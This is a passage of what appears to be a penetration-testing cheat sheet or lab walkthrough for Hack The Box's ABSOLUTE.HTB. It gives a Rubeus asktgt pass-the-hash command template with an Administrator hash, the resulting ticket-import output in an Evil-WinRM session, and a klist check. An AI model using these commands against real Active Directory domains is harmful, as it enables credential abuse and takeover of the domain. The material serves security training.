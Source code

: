 {{< /tabcontent >}}
{{< tabcontent set4-1 tab2 >}}

```console
.\rubeus.exe asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> .\rubeus.exe asktgt /user:Administrator /rc4:1f4a6093623653f6488d5aa24c75f2ea /domain:ABSOLUTE.HTB /dc:DC.ABSOLUTE.HTB /ptt /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 1f4a6093623653f6488d5aa24c75f2ea
[*] Building AS-REQ (w/ preauth) for: 'ABSOLUTE.HTB\Administrator'
[*] Using domain controller: fe80::71ce:9b94:4962:d202%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFpDCCBa ---[SNIP]--- VURS5IVEI=

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/ABSOLUTE.HTB
  ServiceRealm             :  ABSOLUTE.HTB
  UserName                 :  Administrator
  UserRealm                :  ABSOLUTE.HTB
  StartTime                :  9/24/2024 7:10:55 AM
  EndTime                  :  9/24/2024 5:10:55 PM
  RenewTill                :  10/1/2024 7:10:55 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Ge3n0tM7A0k4q2bJ+0F+uA==
  ASREP (key)              :  1F4A6093623653F6488D5AA24C75F2EA
```

{{< /tabcontent >}}

#### 2. Check

```console
klist
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> klist

Current LogonId is 0:0x2e0e9d

Cached Tickets: (2)

#0>     Client: Administrator @ ABSOLUTE.HTB
        Server: krbtgt/ABSOLUTE.HTB @ ABSOLUTE.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 9/24/2024 7:10:55 (local)
        End Time:   9/24/2024 17:10:55 (local)
        Renew Time: 10/1/2024 7:10:55 (local)
```